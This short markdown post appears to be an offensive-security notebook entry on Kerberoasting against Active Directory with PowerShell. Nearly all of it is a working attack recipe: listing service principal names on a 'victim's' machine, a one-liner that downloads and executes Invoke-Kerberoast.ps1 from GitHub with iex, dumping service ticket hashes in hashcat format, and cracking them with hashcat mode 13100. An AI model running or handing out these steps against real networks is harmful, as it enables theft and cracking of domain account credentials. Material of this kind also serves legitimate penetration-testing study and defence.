 ```yaml
---
layout: post
title: Kerberoasting using Powershell
description: Kerberoasting using Powershell
summary: Kerberoasting using Powershell
tags: [foothold,windows,ad,kerberos,powershell]
minute: 1
---
```

## Overview
This will request a service ticket for an account and acquire a hash using powershell.

## Requirement
* You have access to the victim’s windows machine
* Powershell is installed

## Steps
* Extract SPNs (mapping between service and account)

```powershell
setspn -T medin -Q */*
```

* Get powershell script

```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1')
```

* Run script and copy hash to attacker’s machine

```powershell
Invoke-Kerberoast -OutputFormat hashcat |fl
```

* Sample output

![](/spindel/assets/Kerberoasting%20using%20Powershell/X2lGkzF.png)

* Crack hash using hashcat (mode kerberos 5 TGS-REP etype 23)

```bash
hashcat -m 13100 - a 0 hash.txt wordlist --force
```

## Alternative
* [Kerberoasting - Red Teaming Experiments](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting)
